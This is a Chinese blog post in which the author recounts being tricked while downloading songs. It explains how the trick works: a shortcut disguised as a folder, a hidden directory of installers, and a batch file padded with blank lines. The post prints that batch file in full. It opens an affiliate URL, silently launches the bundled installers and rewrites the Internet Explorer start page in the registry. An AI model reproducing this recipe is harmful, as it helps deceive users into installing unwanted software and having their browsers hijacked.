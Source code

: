 ```yaml
---
layout: post
title: 下载周杰伦歌曲遇到的一个诈骗
category: 知识库
keywords: 
tags: 常识
description: 
---
```


### 文件欺骗   
1、创建快捷方式，地址写入`%windir%\system32\cmd.exe /c  start tepm\安装.BAT`   
2、创建文件夹tepm，放入运行程序，注册表，安装.BAT文件,并隐藏文件夹
![image.png](https://blog.alonesky.com/storage/article/2019/08/03/wcIqEuxsw9IRaPW1CbpVgjsDcB0tCCkAebfTr6Gq.png)   
3、安装.BAT前部分敲出换行直到超出一屏，写入代码
```
@echo off
start iexplore.exe http://bae123.sinaapp.com/?cpa
for /f "delims=" %%a in ('dir tepm\  /s /b /a-d^|findstr /v /i "安装.BAT" ^| findstr /v /i "svchost.exe"') do (start "" "%%a")
reg add "HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main" /v "Start Page" /t reg_sz /d "http://www.65796.com" /f >nul 2>nul
reg add "HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main" /v "Default_Page_URL" /t reg_sz /d "http://www.65796.com" /f >nul 2>nul
exit 
```
4、打包压缩文件
#### 心得
> 利用人们忽视原理，下载后看到文件夹样的，会直接点击，触发电脑的cmd运行框执行bat文件开始安装隐藏文件里面的安装包并加入注册表，如果安装了安全管家等会有提示病毒等，没有的话会直接会显示是否添加到注册表(安全管家重要性)   
我就是忽视了这些原因，直接点击了那个文件夹样的快捷方式直接装上了百度浏览器，百度杀毒，百度安全卫视，终日打雁终被雁啄瞎了眼，只能说声牛逼牛逼